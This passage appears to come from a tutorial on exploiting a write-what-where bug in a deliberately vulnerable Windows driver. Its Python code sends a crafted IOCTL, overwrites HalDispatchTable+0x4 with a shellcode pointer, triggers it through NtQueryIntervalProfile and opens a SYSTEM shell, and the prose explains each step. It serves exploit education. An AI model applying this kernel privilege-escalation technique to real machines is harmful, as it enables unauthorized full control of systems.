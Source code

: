 ```python

# 0x002200B = IOCTL code that will jump to TriggerArbitraryOverwrite() function
kernel32.DeviceIoControl(
    handle,                             # hDevice
    0x0022200B,                         # dwIoControlCode
    write_what_where_pointer,           # lpInBuffer
    0x8,                                # nInBufferSize
    None,                               # lpOutBuffer
    0,                                  # nOutBufferSize
    byref(c_ulong()),                   # lpBytesReturned
    None                                # lpOverlapped
)
    
# Actually calling NtQueryIntervalProfile function, which will call HAL + 0x4, where our shellcode will be waiting.
ntdll.NtQueryIntervalProfile(
    0x1234,
    byref(c_ulong())
)

# Print update for nt_autority\system shell
print "[+] Enjoy the NT AUTHORITY\SYSTEM shell!!!!"
Popen("start cmd", shell=True)
```

There is a lot to digest here. Let's look at the following:

```python
# Referencing class created at the beginning of the sploit and passing shellcode to vulnerable pointers
# This is where the exploit occurs
write_what_where = WriteWhatWhere()
write_what_where.What = payload_final   # What we are writing (our shellcode)
write_what_where.Where = real_hal       # Where we are writing it to (HAL + 0x4). NtQueryIntervalProfile() will eventually call this location and execute it
write_what_where_pointer = pointer(write_what_where)

# Print update statement to reflect said exploit
print "[+] What: {0}".format(hex(write_what_where.What))
print "[+] Where: {0}".format(hex(write_what_where.Where))
```

Here, is where the `What` and `Where` come into play. We create a variable called `write_what_where` and we call the `What` pointer from the class created called `WriteWhatWhere()`. That value gets set to equal the address of a pointer to our shellcode. The same thing happens with `Where`, but it receives the value of HalDispatchTable + 0x4. And in the end, a pointer to the variable `write_what_where`, which has inherited all of our useful information about our pointer to the shellcode and HalDispatchTable + 0x4, is passed in the `DeviceIoControl()` function, which actually interacts with the driver.

One last thing. Take a peak here:

```python
# Actually calling NtQueryIntervalProfile function, which will call HAL + 0x4, where our shellcode will be waiting.
ntdll.NtQueryIntervalProfile(
    0x1234,
    byref(c_ulong())
)
```
